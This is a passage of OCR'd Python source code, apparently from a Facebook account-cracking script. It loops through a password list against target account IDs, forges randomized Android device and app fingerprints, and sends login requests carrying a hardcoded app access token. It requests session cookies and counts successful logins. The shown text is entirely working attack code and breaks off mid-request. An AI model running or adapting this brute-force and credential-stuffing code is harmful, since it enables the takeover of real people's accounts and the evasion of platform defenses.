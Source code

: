         sys.stdout.write('\r\r\033[1;37m [USMII-RUNING] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";[FBAN/FB4A;FBAV/;FBBV/;[FBAN/FB4A;FBAV/61.0.0.15.69;FBBV/20748104;FBDM({density=1.0,width=600,height=976};FBLC/es_LA;FBCR/MOVISTAR;FBMF/Rockchip;FBBD/K5-3G;FBPN/com.facebook.katana;FBDV/K5-3G;FBSV/5.1.1;nullFBCA/x86:armeabi-v7a;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sm=['GT-', 'SM-']
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers={
                                'Authorization':f'OAuth {accessToken}',
                                'X-FB-Friendly-Name':'authenticate',
                                'X-FB-Connection-Type':'unknown',